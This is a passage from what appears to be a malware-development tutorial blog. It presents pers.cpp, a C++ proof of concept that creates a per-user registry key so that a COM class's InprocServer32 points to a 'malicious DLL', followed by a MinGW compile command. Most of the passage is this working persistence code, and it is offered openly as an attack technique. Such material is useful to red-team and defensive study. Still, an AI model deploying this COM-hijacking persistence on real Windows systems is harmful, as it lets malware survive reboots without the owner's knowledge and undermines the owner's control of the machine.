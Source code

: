 That's perfectly! :)

### update: programmer way

I also created `pers.cpp` dirty PoC script:

```cpp
/*
pers.cpp
windows low level persistence via COM hijacking
author: @cocomelonc
https://cocomelonc.github.io/tutorial/2022/05/02/malware-pers-3.html
*/
#include <windows.h>
#include <string.h>
#include <cstdio>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // subkey
  const char* sk = "Software\\Classes\\CLSID\\{A6FF50C0-56C0-71CA-5732-BED303A59628}\\InprocServer32";

  // malicious DLL
  const char* dll = "C:\\Users\\User\\Desktop\\shared\\2022-05-02-malware-pers-3\\evil.dll";

  // startup
  LONG res = RegCreateKeyEx(HKEY_CURRENT_USER, (LPCSTR)sk, 0, NULL, REG_OPTION_NON_VOLATILE, KEY_WRITE | KEY_QUERY_VALUE, NULL, &hkey, NULL);
  if (res == ERROR_SUCCESS) {
    // create new registry keys
    RegSetValueEx(hkey, NULL, 0, REG_SZ, (unsigned char*)dll, strlen(dll));
    RegCloseKey(hkey);
  } else {
    printf("cannot create subkey for hijacking :(\n");
    return -1;
  }
  return 0;
}
```

compile it:

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![pers](/assets/images/53/2022-05-02_18-59.png){:class="img-responsive"}    
